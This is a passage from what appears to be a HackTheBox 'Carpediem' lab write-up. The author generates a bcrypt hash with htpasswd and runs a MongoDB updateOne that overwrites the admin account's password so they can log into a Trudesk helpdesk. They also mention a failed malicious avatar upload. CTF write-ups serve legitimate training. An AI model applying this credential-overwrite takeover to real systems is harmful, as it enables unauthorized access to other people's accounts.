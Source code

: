Even though we get `"success":true` trying to login it still says that the password is incorrect.. 
But we do have access to the mongodb, maybe it would be easier to just change password in there. 

To generate a new bcrypt password I found this [amazing one-liner](https://unix.stackexchange.com/questions/307994/compute-bcrypt-hash-from-command-line) where we (ab)use ``htpasswd``:
```bash
➜  carpediem htpasswd -bnBC 10 "" asdf123 | tr -d ':\n' | sed 's/$2y/$2b/'
$2b$10$xI/.a/s.g6GGgH1xQN5v1unN6zFFMB02O0SrJXCx1MLKVp3Hj3jvO
```

```bash
> db.accounts.updateOne(
... { "username" : "admin" },
... { $set:
... { "password" : "$2b$10$xI/.a/s.g6GGgH1xQN5v1unN6zFFMB02O0SrJXCx1MLKVp3Hj3jvO" }
... }
... )

{ "acknowledged" : true, "matchedCount" : 1, "modifiedCount" : 1 }
```

We're now able to login to the application `http://trudesk.carpediem.htb`:
![](/assets/images/htb-writeup-carpediem/carpediem14.png)

Looking around we don't find anything new, information wise. Trying to change user avatar to a malicious one fails, as they move and rename the file on upload. 
The only interesting information we gain here is the soft phone name _"Zoiper"_, maybe there's a vhost for that as well. I can't find any web interface for Zoiper, so instead we [download](https://www.zoiper.com/en/voip-softphone/download/current) it locally and try if we can connect to their server.
